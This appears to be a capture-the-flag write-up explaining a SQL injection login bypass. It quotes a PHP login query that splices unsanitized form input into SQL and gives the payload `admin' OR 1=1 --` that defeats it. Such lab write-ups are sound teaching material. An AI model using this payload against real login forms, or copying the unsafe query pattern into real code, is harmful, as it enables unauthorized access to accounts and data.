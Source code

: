# SQL Injection

## Exploration

We started by investigating the index.php file that was provided to us by the CTF platform.

SQLite3 is the used database engine and the `flag.txt` file is included when a user successfully logs in.

The login query is as follows:

```php
    $username = $_POST['username'];
    $password = $_POST['password'];

    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

As we can see, user input's are not sanitized.

## Attack

All we need to do is make sure that the `WHERE` condition is true.

We can do this by inputting `admin' OR 1=1 --` so that the username condition is always true (`1=1`) and then comment the password condition (`--`). We also need to write a random input for the password because it is a required input (We wrote `1` as a password).

The executed query would look like this:

```php
    $username = $_POST['username']; ## admin' OR 1=1 --
    $password = $_POST['password']; ## 1

    $query = "SELECT username FROM user WHERE username = 'admin' OR 1=1 --' AND password = '1';
```

The result of these inputs:

![Alt text](./images/imagectf8-1.png)